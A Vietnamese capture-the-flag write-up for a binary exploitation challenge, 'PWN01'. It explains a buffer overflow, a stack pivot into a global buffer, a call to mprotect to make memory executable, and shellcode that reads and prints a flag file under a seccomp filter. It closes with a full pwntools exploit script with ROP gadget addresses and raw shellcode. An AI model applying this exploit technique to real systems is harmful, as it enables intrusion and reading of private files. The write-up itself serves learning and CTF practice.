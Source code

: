 # PWN01

![img](./assets/overview.png)

## OVERVIEW

- Challenge cho chúng ta một file ELF 64-bit. Bên dưới là thông tin của file

![img](./assets/file_info.png)

- Tiếp theo mình cho file này vào ida để decompile nó xem bên trong nó thực hiện những gì.

![img](./assets/main.png)

- Hàm main đầu tiên `setbuf()` cho các file, sau đó gọi đến hàm `init_seccomp()`.
- Kiểm tra hàm init_seccomp(), mình biết được hàm tạo ra những quy tắc cho file, cụ thể ở đây là không cho phép sử dụng lệnh gọi `execve (0x3b)` và một số quy tắc khác với hàm `bpf()` mà mình chưa rõ (Cũng vì hàm này nên cũng tiêu tốn khá nhiều thời gian giải bài của mình :v).

![img](./assets/seccomp-tools.png)

- Tuy nhiên từ đây, ta biết là gần như chúng ta không thể lấy được shell đang chạy chương trình.
- Tiếp trong hàm main, ta có 2 lệnh in màn hình, lệnh nhập cho biến nm với đầu vào `256` ký tự, in tiếp ra màn hình thông báo và lệnh `read(0, v6, 0x90);`, lệnh này gây buffer overflow vì biến v6 được khởi tạo có 96 bytes. Như vậy là mình có thể ghi đè thêm `0x30 bytes`.
- Và sau đó là hàm `is_this_funny()` thực hiện việc kiểm tra `11` ký tự đầu của chuỗi `v6` xem có đúng bằng với chuỗi "I'm weebiii" không. Nếu không thì sẽ thực hiện thoát chương trình ngay. Còn nếu có thì chương trình được thực hiện tiếp đến khi thoát hàm main.

![img](./assets/is_this_funny.png)

- Mình có rà soát lại các hàm khác và tìm được một hàm `winwin()`, tuy nhiên chúng ta đã không thể dùng lời gọi `0x3b` để lấy được shell rồi :v.

![img](./assets/winwin.png)

## IDEA

- Mình sẽ dùng lỗi buffer overflow để tạo một đoạn ROP gadget chuyển hướng `RIP` về địa chỉ của `nm`, tại `nm` mình sẽ lưu trữ các địa chỉ của các ROP gadget khác.
- Các lệnh này đầu tiên sẽ thay đổi địa chỉ của con trỏ `RSP`, biến vùng nhớ của `nm` trở thành stack "ảo" để chúng ta thực hiện chuỗi các gadget khác đằng sau đó, như vậy là mình có thể thực hiện ROP thoải mái hơn.
- Mình sẽ chia `nm` thành 3 phần, phần đầu dùng để chứa địa chỉ của các ROP gadget, phần thứ 2 sẽ dùng để chứa shellcode, phần thứ 3 thì mình sẽ dùng để chứa data cho shellcode.
- Do chúng ta không thể gọi đến lệnh lấy shell, nên mình sẽ thử in ra các file trên server xem có tìm được flag không (Thật ra đây là ý tưởng cuối cùng mình có thể làm).

## Details:

- Mình dư ra `48 bytes` khi lấp đầy được biến `v6`, mình cần `8 bytes` ghi đè `RBP` để tới được phần địa chỉ `RET` của hàm `main`. Như vậy là mình còn `40 bytes` để thao tác.
- Thật may là file này được compile với `statically linked`, tức là file đã chứa hầu hết các hàm của thư viện, điều này sẽ thuận tiện cho việc tìm các gadget hơn.
- Dưới đây là những địa chỉ và giá trị hữu ích mà mình tìm được để thực hiện việc khai thác. 

![img](./assets/rop_list.png)

- Đầu tiên mình sẽ xây dựng payload cho việc ghi dữ liệu vào `nm`.

![img](./assets/nm_input.png)

- Ở đây mình sử dụng `16 bytes` đầu cho việc điền tên file, vì mình không biết tên file flag là gì, nên mình sẽ dành `16 bytes` cho việc thử tên.
- Sau đó là gadget pop `RSP`, lệnh này sẽ thay đổi địa chỉ trong `RSP` thành giá trị nào đó (lúc này `RSP` vẫn trỏ lên stack nên giá trị truyền vào `RSP` sẽ nằm trên stack).
- Sau đó là các gadget truyền đối số vào các thanh ghi và thực hiện `mprotect(data_segment, 0x2000, 7);` lệnh này sẽ thực hiện set quyền `rwx` cho cả phân đoạn `data` (chứa cả `nm`). Mình phải làm điều này vì file đã bật `NX` (không cho phép có phân đoạn nhớ nào có cả thuộc tính ghi và thực thi).
- Sau khi thực hiện lệnh `mprotect();` xong thì mình sẽ nhảy đến vùng nhớ của shellcode để thực thi shellcode.
- Đây sẽ là tên file mình sử dụng.

![img](./assets/file_and_shellcode.png)

- Shellcode của mình thực hiện việc mở file có tên trong biến file, và sau đó đọc `0x100 bytes` trong file đó và ghi vào địa chỉ `0x4d73d0`, phần này là phần vùng nhớ cuối của biến `nm`. Tiếp theo là phần in ra dữ liệu tại địa chỉ `0x4d73d0`.

![img](./assets/shellcode.png)

- Sau đó mình sẽ gộp 2 phần ROP và shellcode vào là được payload để truyền vào biến `nm` rồi.
- Còn biến `v6`, mình sẽ ghi đoạn đầu đúng như chuỗi trong hàm `is_this_funny();` để chương trình không chạy vào hàm `exit();`. Sau đó là phần padding `(0x68-11) bytes` để chúng ta đến được vùng nhớ `RET` của `main`.

![img](./assets/payload.png)

- Chuỗi các gadget mình sử dụng sẽ set địa chỉ bắt đầu của phần ROP trong `nm` vào `RSI`, và sau đó sẽ chuyển hướng `RIP` đến vùng nhớ đó thực hiện các lệnh trong ROP. 
- Tuy nhiên sau khi chuyển hướng `RIP` đến vùng nhớ của `nm` thì chúng ta vẫn phải thay đổi tiếp `RSP` để thực hiện tạo một stack "ảo", do đó sau lệnh `jmp rsi`, mình sẽ để địa chỉ tiếp theo trong ROP trên `nm`.

- Đây là script dùng để khai thác.

```python
from pwn import *
#----------------------------------------------
# Register pop gadget
pop_rsi     = 0x4021e4 # : pop rsi ; ret
pop_rdx     = 0x450b6d # : pop rdx ; ret
pop_rdi     = 0x4033e1 # : pop rdi ; ret
mtf         = 0x401dc0 # : pop rsp ; ret

# Change RIP gadget
jmp_ptr_rsi = 0x486638 # : jmp qword ptr [rsi]

# Address
nm_rop  = 0x4D7330 # Start of ROP chain in nm
mprotec = 0x452E50 # mprotec address

start_s = 0x4d6000 # start segment for mproc
size_s  = 0x2000   # size that want to set
per_s   = 7        # mode rwx
sh_addr = 0x4d7378 # shellcode's address

# Data
file    = b"flag"
shellcode = b"\x48\xC7\xC0\x02\x00\x00\x00\x48\xC7\xC7\x20\x73\x4D\x00\x48\xC7\xC6\x00\x00\x00\x00\x48\xC7\xC2\x00\x00\x00\x00\x0F\x05\x48\x89\xC7\x48\xC7\xC6\xD0\x73\x4D\x00\x48\xC7\xC2\x00\x01\x00\x00\x48\xC7\xC0\x00\x00\x00\x00\x0F\x05\x48\xC7\xC6\xD0\x73\x4D\x00\x48\xC7\xC2\x00\x01\x00\x00\x48\xC7\xC0\x01\x00\x00\x00\x48\xC7\xC7\x01\x00\x00\x00\x0F\x05"
#----------------------------------------------
# Code Start
p = remote("167.172.80.186", 6666)
p.recvuntil(b"> ")

ROP = file + b"\0"*(16-len(file)) + p64(mtf) 
ROP += p64(pop_rdi) + p64(start_s) 
ROP += p64(pop_rsi) + p64(size_s) 
ROP += p64(pop_rdx) + p64(per_s) 
ROP += p64(mprotec)
ROP += p64(sh_addr) 

p.send(ROP + shellcode)

p.recvuntil(b"> ")

payload = b"I'm weebiii" + b"a"*(0x68-11)
payload += p64(pop_rsi) + p64(nm_rop) 
payload += p64(jmp_ptr_rsi) 
payload += p64(nm_rop + 8)

p.send(payload)

p.interactive()

```